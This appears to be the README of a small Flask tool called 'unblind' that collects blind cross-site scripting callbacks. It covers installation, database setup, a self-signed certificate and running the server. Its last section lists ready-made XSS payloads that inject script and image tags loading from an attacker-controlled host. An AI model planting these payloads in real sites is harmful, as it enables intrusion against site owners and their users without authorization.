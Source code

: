 
First, install dependencies:
```
$ pip3 install Flask
$ pip install Flask-SQLAlchemy
$ pip install flask_login
$ pip install pyopenssl
```

Then, create the database and set the environment and start the app:
```
$ python3
>>> from unblind import db, create_app
>>> db.create_all(app=create_app())
>>> exit()
$ export FLASK_APP=project
$ export FLASK_DEBUG=1
$ cd certs
$ openssl req -x509 -newkey rsa:4096 -nodes -out cert.pem -keyout key.pem -days 365
$ flask run --cert=certs/cert.pem --key=certs/key.pem -h 0.0.0.0 -p 5000
```

The first time you log on, you will need to create a user/password. Choose them well.

Then trigger a Blind XSS with something like:
```
"><script src='https://<ip>:<port>/unblind/xss/unique_str'></script>
"><script src='https://squaredcircle.re:5000/unblind/xss/unique_str'></script>
"><img src='https://squaredcircle.re:5000/unblind/xss/unique_str'/>
```

The tool is not beautiful neither fully functionnal. Need improvements ! Be my guest !



